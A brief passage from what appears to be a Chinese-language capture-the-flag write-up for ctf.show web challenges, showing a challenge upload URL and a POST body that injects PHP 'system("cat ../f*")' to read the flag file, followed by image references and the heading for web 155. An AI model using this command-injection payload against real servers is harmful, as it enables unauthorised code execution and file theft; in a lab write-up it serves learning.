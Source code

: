 GET：

```url
http://cb7d8f63-573f-41f7-8989-f2ff32997d96.challenge.ctf.show/upload/index.php
```

POST：

```url
a=system("cat ../f*");
```

然后查看源码

![](<../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1).png>)\


***

## <mark style="color:blue;background-color:green;">（5）web 155</mark>

<figure><img src="../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
